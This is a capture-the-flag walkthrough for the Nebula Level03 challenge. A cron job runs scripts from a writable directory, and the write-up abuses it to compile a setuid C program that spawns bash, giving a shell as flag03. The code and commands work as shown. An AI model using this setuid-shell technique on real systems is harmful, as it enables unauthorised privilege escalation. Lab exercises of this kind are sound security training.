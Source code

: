 * Level03
  :PROPERTIES:
  :CUSTOM_ID: level03
  :END:
** Task
   :PROPERTIES:
   :CUSTOM_ID: task
   :END:

#+begin_quote
  Check the home directory of flag03 and take note of the files there.
#+end_quote

#+begin_quote
  There is a crontab that is called every couple of minutes.
#+end_quote

#+begin_quote
  To do this level, log in as the level03 account with the password
  level03. Files for this level can be found in /home/flag03.
#+end_quote

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:
The files in =/home/flag03/= show a directory and a shell script

#+begin_src sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
#+end_src

To manipulate this i put the following as /tmp/shell.c

#+begin_src C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
#+end_src

Then put the following in =/home/flag03/writable.d/= and wait for it to
run

#+begin_src sh
#!/bin/bash

gcc /tmp/shell.c -o /home/flag03/shell
chmod +s /home/flag03/shell
#+end_src

After it has ran, i can run the shell file and get the flag

#+begin_example
level03@nebula:/home/flag03$ ls writable.d/
run.sh
level03@nebula:/home/flag03$ ls writable.d/
#+end_example

#+begin_example
level03@nebula:/home/flag03$ ./shell
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
#+end_example
